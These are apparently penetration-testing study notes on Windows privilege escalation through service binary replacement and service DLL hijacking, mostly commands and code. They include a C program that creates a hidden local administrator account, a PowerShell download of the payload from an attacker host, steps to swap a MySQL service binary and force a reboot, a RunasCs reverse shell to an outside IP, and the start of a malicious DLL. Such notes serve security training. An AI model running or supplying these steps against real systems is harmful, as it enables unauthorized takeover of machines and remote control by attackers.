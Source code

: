 ```c
  int i;
  i = system ("net user ivan password123! /add");
  i = system ("net localgroup administrators ivan /add");
  return 0;
}
```
Compile:
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
Start python3 server -> transfer the `adduser.exe` to target -> move the `original program` to our `home directory` -> move the `adduser.exe` to the target path(name target service program).
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
Restart the service:
```powershell
net stop mysql
```
If `access is denied` -> check if the service `StarUp type` is `Automatic`:
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```
Check if we have `SeShutDownPrivilege` to reboot the machine by `whoami /priv`
-> Reboot:
```powershell
shutdown /r /t 0
```
If no `SeShutDownPrivilege` -> wait for the victim to manually start the service.
We can use `RunAs` to gain an interactive shell.(with msfvenom)
**And we can use `runascs.exe` to get `administrator` priv if the user is in the `Administrator group`.**
 ```powershell
 RunasCs.exe ivan password123! cmd.exe -r 192.168.45.213:443
```
### Service DLL Hijacking
Enumerate Service by `Get-CimInstance`-> Check privileges by `icacls`.
[Procon](https://github.com/zodiacon/ProcMonX/releases/tag/0.21-beta)
Without Administrator privilege, we can use `Procmon` to start process monitor.(Need GUI).
Enter `Procmon` -> use filter-> Enter the following arguments: _Process Name_ as _Column_, _is_ as _Relation_, `BetaServ.exe` as _Value_, and _Include_ as _Action_ -> Restart the service
```powershell
Restart-Service BetaServ.exe
```
Then found that `CreateFile` calls attempted to open a file named **myDLL.dll** in several paths, and one service binary is located in `Document` folder.(we have write permission).
see `environment variable` to retrieve path:
```powershell
$env:path
```
-> Craft payload `MyDll.cpp`:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
```